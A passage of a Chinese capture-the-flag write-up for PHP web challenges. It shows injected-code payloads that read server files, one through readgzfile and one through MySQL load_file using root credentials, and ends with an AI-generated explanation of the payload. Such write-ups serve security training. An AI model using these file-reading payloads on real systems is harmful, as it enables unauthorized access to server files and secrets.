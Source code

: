 ```
c=readgzfile('/flagx.txt');exit();
```

成功查到了flag

#### web75

![image-20241130001438365](assets/image-20241130001438365.png)

这题要用glob查文件，用var_export查不了

接下来是读文件

尝试了uaf和readgzfile之类的方法都失败了

没办法看看大佬怎么做的

我们其实可以用到mysql的load_file方法，从而读到flag

payload:

```php
c=$conn = mysqli_connect("127.0.0.1", "root", "root", "ctftraining"); $sql = "select load_file('/flag36.txt') as a"; $row = mysqli_query($conn, $sql); while($result=mysqli_fetch_array($row)){ echo $result['a']; } exit();
```

豆包解释一下

> 1. 数据库连接：
>    - `$conn = mysqli_connect("127.0.0.1", "root", "root", "ctftraining");`
>    - 这行代码使用 MySQLi 扩展建立了一个与 MySQL 数据库的连接。它指定了数据库服务器的 IP 地址为`127.0.0.1`（本地主机），用户名是`root`，密码也是`root`，要连接的数据库名称是`ctftraining`。如果连接成功，`$conn`将保存这个数据库连接对象，以便后续进行数据库操作；如果连接失败，将会产生一个错误信息（不过在这段代码中没有对连接失败情况做显式处理）。
> 2. SQL 查询语句构建：
>    - `$sql = "select load_file('/flag36.txt') as a";`
>    - 这里构建了一个 SQL 查询语句。`load_file()`是 MySQL 中的一个函数，它的作用是读取指定路径的文件内容，并以字符串的形式返回。在这个查询中，它试图读取服务器上`/flag36.txt`文件的内容，并给查询结果的这一列起了一个别名`a`。
> 3. 执行查询并获取结果：
>    - `$row = mysqli_query($conn, $sql);`
>    - 这行代码使用已经建立好的数据库连接`$conn`来执行前面构建的 SQL 查询语句`$sql`。如果查询执行成功，`$row`将包含查询结果集的资源对象（可以理解为指向查询结果数据的一种引用）；如果查询失败，同样会产生一个错误信息（这里也未做显式处理）。
>    - `while($result=mysqli_fetch_array($row)){ echo $result['a']; }`
>    - 这个`while`循环用于遍历查询结果集。`mysqli_fetch_array()`函数每次从结果集中获取一行数据，并以数组的形式返回。在循环内部，它通过`$result['a']`来获取前面查询中`load_file()`函数读取到的文件内容（因为在查询中给这一列起了别名`a`），并将其输出到屏幕上。
> 4. 程序结束：
>    - `exit();`
>    - 这行代码使得脚本在完成查询结果输出后立即终止执行，不再执行后续可能存在的其他代码。
